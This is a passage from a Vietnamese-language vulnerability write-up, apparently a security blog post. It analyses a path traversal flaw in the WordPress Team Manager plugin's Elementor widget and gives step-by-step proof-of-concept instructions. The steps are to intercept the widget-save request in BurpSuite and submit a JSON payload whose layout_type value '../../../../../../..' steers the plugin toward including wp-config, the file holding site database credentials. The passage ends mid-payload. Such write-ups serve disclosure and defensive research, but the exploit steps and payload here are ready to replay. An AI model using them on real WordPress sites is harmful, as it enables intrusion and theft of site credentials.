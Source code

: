 Quan sát ta thấy có key `settings` chứa các key `layout_type` và `{layout_type_value}_stype_type` tương ứng với code ta phân tích ở trên:

```php
$styleTypeKey = "{$layout}_style_type";
$styleType = stripslashes($settings[$styleTypeKey]);
```

👉 Ta có thể kiểm soát các giá trị ở đây.

## Exploit
### Proof of Concept (PoC)

#### Step 1

Tạo team mới tại endpoint: `wp-admin/post-new.php?post_type=team_manager` vì khi có team thì mới có giá trị để thêm vào layout của **widget Team Manager**.

#### Step 2

Tạo post bằng **Elementor**, thêm **widgets Team Manager**.

{{< figure src="widgets.png" caption="Thêm Team Manager widget vào post" >}}


#### Step 3

**Submit**, bắt request bằng **BurpSuite** gửi đến **Repeater**

#### Step 4

Bôi đen giá trị của param `action`,sửa payload tại **tab Inspector** và gửi lại request

```json
{
  "save_builder": {
    "action": "save_builder",
    "data": {
      "status": "pending",
      "elements": [
        {
          "id": "e9249f1",
          "elType": "container",
          "isInner": false,
          "isLocked": false,
          "settings": {},
          "elements": [
            {
              "id": "3e7c95b",
              "elType": "widget",
              "isInner": false,
              "isLocked": false,
              "settings": {
                "layout_type": "../../../../../../..",
                "../../../../../../.._style_type": "wp-config"
              },
              "elements": [],
              "widgetType": "wtm-team-manager"
            }
          ]
        },
        {
          "id": "b132b28",
          "elType": "container",
          "isInner": false,
          "isLocked": false,
          "settings": {},
```